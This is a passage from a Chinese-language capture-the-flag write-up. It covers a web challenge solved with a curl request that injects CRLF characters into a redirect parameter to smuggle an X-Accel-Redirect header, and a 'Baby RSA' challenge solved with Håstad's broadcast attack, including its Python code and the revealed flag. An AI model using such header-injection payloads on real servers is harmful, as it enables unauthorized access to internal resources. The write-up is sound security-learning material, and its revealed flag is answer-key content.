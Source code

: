 2. 然後看起來架構簡單，也沒什麼特別的又要設法使其 internal 去訪問，但 redir 也我們的瀏覽器做的，基本無解，然後就 google 到解法了。

3. ref: https://blog.orange.tw/2014/02/olympic-ctf-2014-curling-200-write-up.html

    ```bash
    curl -v "$website/?redir=https://localhost:7778/%0d%0aX-Accel-Redirect:/flag"
    ```

**取得 flag 的畫面：**
![Alt text](image/internal_flag.png)

## crypoto

### Baby RSA

- Flag：`AIS3{c0pP3r5mITH$_5h0R7_PaD_a7T4CK}`

#### 解題流程與思路
**解題過程：**

1. 接上去會發現可以，每次都可以取得一個使用不同 N 同樣 e 的 c，稍稍回憶一下似乎可以是個經典的洞，網路上找了幾個，就找到能直接用的了，

2. ref: https://github.com/lossme/CTF/blob/master/challenge/RSA/%E5%B9%BF%E6%92%AD%E6%94%BB%E5%87%BB%20%E4%BD%BF%E7%94%A8%E4%B8%8D%E5%90%8C%E7%9A%84n%EF%BC%88e%E7%9B%B8%E5%90%8C%EF%BC%89%E5%88%86%E5%88%AB%E5%AF%B9%E4%B8%80%E4%B8%AA%E6%98%8E%E6%96%87%E5%8A%A0%E5%AF%86/solve.py

    ```python
    def CRT(mi, ai):
        assert (isinstance(mi, list) and isinstance(ai, list))
        M = functools.reduce(lambda x, y: x * y, mi)
        ai_ti_Mi = [a * (M // m) * gmpy2.invert(M // m, m) for (m, a) in zip(mi, ai)]
        return functools.reduce(lambda x, y: x + y, ai_ti_Mi) % M

    m_decrypt = gmpy2.iroot(CRT([n1, n2, n3], [FLAG1, FLAG2, FLAG3]), e)[0]
    print(long_to_bytes(m_decrypt))
    ```
3. 詳見 crypto/rsa/sol.py

